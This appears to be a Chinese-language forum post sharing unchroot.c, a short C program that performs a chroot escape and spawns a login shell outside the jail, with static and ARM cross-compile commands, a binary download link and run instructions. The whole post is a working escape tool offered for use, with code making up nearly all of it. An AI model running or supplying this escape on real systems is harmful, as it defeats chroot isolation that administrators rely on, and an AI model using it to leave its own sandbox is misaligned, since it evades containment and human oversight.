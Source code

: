 在hu60.cn上查看/讨论：https://hu60.cn/q.php/bbs.topic.106810.html

### unchroot.c

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>

int main() {
    mkdir("/tmp", 0777);
    mkdir("/tmp/unchroot.dir", 0755);
    chroot("/tmp/unchroot.dir");
    chdir("../../../../../../../../../../../../../../../../../../../../../../../../../../..");
    chroot(".");
    system("/bin/sh -l");
    return 0;
}
```

### 编译：

```
gcc -o unchroot -static unchroot.c
```

### 交叉编译为32位ARM二进制

```
arm-linux-gnueabi-gcc -o unchroot -static unchroot.c
```

[unchroot（491.31 KB）](unchroot)

### 使用

在chroot环境执行它即可

```
chmod +x ./unchroot
./unchroot
```

应该会离开chroot环境，进入外面的shell。

-----------------------------------------

思路来自 https://terenceli.github.io/%E6%8A%80%E6%9C%AF/2024/05/25/chroot-escape

